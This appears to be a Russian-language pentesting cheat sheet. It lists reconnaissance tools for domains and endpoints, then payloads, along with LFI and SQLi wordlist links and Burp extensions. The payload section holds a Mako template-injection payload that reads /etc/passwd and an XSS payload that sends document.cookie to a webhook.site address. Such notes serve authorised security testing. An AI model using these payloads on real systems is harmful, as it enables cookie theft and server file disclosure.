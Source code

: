 # Разведка доменных имен

https://github.com/glebarez/cero

Cero подключается к удалённым хостам и считывает доменные имена из сертификатов, предоставленных во время TLS-рукопожатия.
Сервер не ограничивается только HTTPS и может извлекать сертификаты из любого протокола, работающего через TLS (например, SMTPS) — просто укажите нужные порты для подключения.
Cero позволяет гибко указывать цели, включая доменные имена, IP-адреса и диапазоны CIDR, с полной поддержкой IPv6.

https://github.com/hakluke/hakip2host

hakip2host принимает список IP-адресов через stdin, а затем выполняет серию проверок для возврата связанных доменных имен.

- DNS PTR-поиски
- Альтернативные имена субъектов (SAN) в SSL-сертификатах
- Общие имена (CN) в SSL-сертификатах

https://github.com/projectdiscovery/httpx

httpx— это быстрый и многоцелевой HTTP-инструментарий, позволяющий запускать несколько тестов с помощью библиотеки retryablehttp . Он разработан для обеспечения надёжности результатов при увеличении числа потоков.

https://github.com/xnl-h4ck3r/waymore

Идея waymore заключается в том, чтобы найти еще больше ссылок с помощью Wayback Machine, чем с помощью других существующих инструментов.

👉 Самое большое отличие waymore от других инструментов заключается в том, что он также может загружать архивные ответы для URL-адресов на wayback machine, чтобы вы могли затем искать в них еще больше ссылок, комментариев разработчиков, дополнительных параметров и т. д. и т. п. 👉 Кроме того, другие инструменты в настоящее время не справляются с ограничением скорости, которое сейчас устанавливают источники, и часто просто останавливаются с неполными результатами и не сообщают вам об этом.

https://github.com/xnl-h4ck3r/xnLinkFinder

Это инструмент, используемый для обнаружения конечных точек (и потенциальных параметров) заданной цели. Он может найти их следующим образом:

сканирование цели (передача домена/URL)
сканирование нескольких целей (передача файла доменов/URL-адресов)
поиск файлов в заданном каталоге (передать имя каталога)
поиск по содержимому одного файла
получить их из проекта Burp (передать расположение XML-файла Burp)
получить их из проекта ZAP (передать местоположение файла сообщений ZAP ASCII)
получить их из проекта Caido (передать расположение файла CSV экспорта Caido)
обработка каталога результатов waymore (поиск архивных файлов ответов waymore -mode R, а также запрос URL-адресов waymore.txtи исходных URL-адресов waymore_index.txt- см. waymore README.md )
Скрипт на Python основан на возможностях поиска ссылок моего расширения Burp GAP . В качестве отправной точки я взял замечательный инструмент LinkFinder от Gerben Javado и использовал регулярное выражение для поиска ссылок, но с дополнительными улучшениями, позволяющими находить ещё больше ссылок.

# SSTI (Server-Side Template Injection) в Python

##  Mako Templates
### Проверка уязвимости
${7*7}  # → 49

### Чтение файла
<% import os %>${os.popen('cat /etc/passwd').read()}

# XSS Payload
[<]img src=x onerror="this.src='https://webhook.site/b8ce3f5c-707d-406f-a8df-0dd7928bca42?c='+document.cookie;"[>]

# LFI 
## Top 25 Local File Inclusion (LFI) Parameters
Лежат в файле https://github.com/felixsta/hack_tips/blob/main/Top_25_LFI_Parameters
##  LFI Wordlists
https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI

https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux
# SQLi
https://www.sqlinjection.net/stacked-queries/
https://pentestmonkey.net/category/cheat-sheet/sql-injection
# Burp Suite 
Turbo Intruder
Copy as FFUF Command
Hackvertor
Param Miner


